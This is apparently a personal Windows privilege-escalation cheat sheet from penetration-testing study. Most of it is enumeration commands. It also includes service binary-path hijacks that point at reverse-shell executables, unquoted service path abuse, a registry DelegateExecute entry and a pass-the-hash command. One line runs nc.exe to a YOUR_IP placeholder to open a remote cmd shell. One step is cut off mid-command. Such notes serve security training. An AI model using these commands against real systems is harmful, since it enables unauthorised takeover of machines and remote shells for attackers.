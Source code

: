 ###### Basic Privesc Emumeration for Windows
```
whoami
whoami /priv
---
net user // Discover other users
---
net user <user> // Enumerate info for selected user
---
hostname
---
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" // View System Info
---
tasklist /SVC // Processes
---
ipconfig /all
---
route print // network routing tables 
---
netstat -ano // Veiw active network connections 
a = all active TCP connection
n = ip/ports
o = PID
```
###### Enumerating Firewalls for Windows
```
netsh advfirewall show currentprofile // Current firewall profile
---
netsh advfirewall firewall show rule name=all // Firewall rules
```
###### Enumerating Scheduled Tasks for Windows
```
schtasks /query /fo LIST /v // List Tasks
```
###### Enumerating installed applications for Windows
```
wmic product get name, version, vendor // Info on installed apps
---
wmic qfe get Caption, Description, HotFixID, InstalledOn // Full Sys updates
```
###### Enumerating R/W files for Windows
```
[Download accesschk.exe onto Target]
accesschk.exe -uws "Everyone" "<Path to DIR>" // Will check for w-W files 
---
[powershell]
Get-ChildItem "<PATH TO DIR>" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
###### Kernel Exploits
```
Download systeminfo 
Run in on kali through windows-exploit-suggester
```
###### Service Commands
```
Query the configuation of a service:
- sc.exe qc <name>
Query the current status of a service
- sc.exe query <name>
Modify a configuration option of a service
- sc.exe config <name> <options>= <value>
Start/Stop a service <name>
- net start/stop <name>
```
###### Insecure Service Permissions 
```
Innocuous = SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS
Useful = SERVICE_STOP, SERVICE_START
Dangerous = SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS
-------
If you cant stop/start a service, it doesnt matter if you can change anytihng (rabbithole)

.\achesschk.exe /accepteula -uwcqv user <service> ###Checking access permissions

then

sc.exe qc <service> ### will show path/and if you can start manually, 

sc config <service> binpath= "\""C:\path\to\reverse\shell.exe"" #### set binary path to a reverse shell.

net start <service> ####start the service to get shell
--------
````
###### Unqouted Service Pahts
```

EXAMPLE C:\Program Files\Big Dir\Common files\SomeExecutable.exe

To execute the exe, windows first checks everything before it, with spaces and unqoutes. 

So remember in this instance. Program, Big, or Common could both be turned into .exe and pop a reverse shell

1 Check if you have permissions to start the service 
.\accesschk.exe \accepteula -ucqv user <unquotedsvc> 

2. Check for write permissions on each directory within the binary path
- .\accesschk.exe \accepteula -uwdq C:\
-- .\accesschk.exe \accepteula -uwdq "C:\Program Files"
--- .\accesschk.exe \accepteula -uwdq "C:\Program Files\Big Dir"

### so in this example, we are going to put a reverse shell in Big Dir called common.exe

```
###### Weak Registry Permissions
```
Modidy a services configuatiion rather than the service

Verify the permissions

powershell -exec

```

###### Enumerating Unmounted Disks for Windows
```
mountvol
```
###### Enumerating Drivers and Kernal Modules for Windows
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start mod
e', Path // Lists display name, start mode and path
---
 Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"} //Target specific drivers
```
###### AutoElevate Binaries for Windows
```
regedit //opens Registry Editor 
---
reg query HKEY_CURRENT_USER
---
REG ADD HKCU\path\to\Shell\Open\command /v DelegateExecute /t REG_SZ
```
###### 
Insecure file permissions for Windows
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} // shows service/path
---

```
***
#### The Automated Stuff
###### Windows
```
windows-privesc-check2.exe // http://pentestmonkey.net/windows-privesc-check

windows-privesc-check2.exe--dump -G Dump Groups 
---
windows-privesc-check2.exe --dump -G -H // Dump Groups & Shares
---
windows-privesc-check2.exe --dump -M -V // Dump password policy & privs for users and groups
---
windows-privesc-check2.exe -A // All files and Dirs
--
windows-privesc-check2.exe --pyshell // o.O 
---
procmon.exe
---
sigcheck.exe -a -m C:\path\to\binarie
---
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"  //XP SP1 2001 
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
###### Windows
```
[Examples]

whoami /groups // Look for Medium integrity level
-
net user admin NewPassword // Try set new password (Most likely will fail)
-
powershell.exe Start-Process cmd.exe -Verb runAs // Privesc
```
```
wmic service where caption="Service" get name, caption, state, startmode // Check start mode and active status
---
pth-winexe -U <user>%<lm hash>:<NTLM hash> //<Target IP> cmd /// Pass the Hash 
```
